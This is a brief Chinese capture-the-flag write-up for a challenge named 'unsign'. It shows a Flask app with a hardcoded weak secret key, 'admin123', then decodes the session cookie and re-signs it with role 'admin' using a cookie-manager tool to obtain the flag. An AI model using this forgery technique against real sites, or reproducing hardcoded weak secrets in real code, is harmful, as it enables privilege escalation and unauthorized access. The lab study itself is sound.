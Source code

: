 # unsign

​	这道题考点为flask-session伪造。

```python
from flask import Flask, render_template, session, g
import base64
import pickle

app = Flask(__name__)
app.config['SECRET_KEY'] = 'admin123'


@app.route('/')
def show_index():
    if not session.get('role'):
        session['role'] = 'anonymous'

    g.role = session['role']

    if g.role == 'admin':
        g.msg = open('/flag').read()
    else:
        g.msg = 'Only admin can get flag!'

    return render_template('info.html')

app.run('0.0.0.0', 8000)
```

​	拿到加密密钥为admin123，使用工具https://github.com/noraj/flask-session-cookie-manager。

​	初次访问cookie为`eyJyb2xlIjoiYW5vbnltb3VzIn0.aH3e0g.rN4l1S6KfG8xN2yvoa60yLtj9jA`

```shell
python flask_session_cookie_manager3.py decode -c "eyJyb2xlIjoiYW5vbnltb3VzIn0.aH3e0g.rN4l1S6KfG8xN2yvoa60yLtj9jA" -s "admin123"
{'role': 'anonymous'}
```

```shell
python flask_session_cookie_manager3.py encode -t "{'role': 'admin'}" -s "admin123"
eyJyb2xlIjoiYWRtaW4ifQ.aH3jIg.CjV7ebNim3aea3wYjVf_oaWPgFU
```

​	修改cookie后访问直接拿到flag。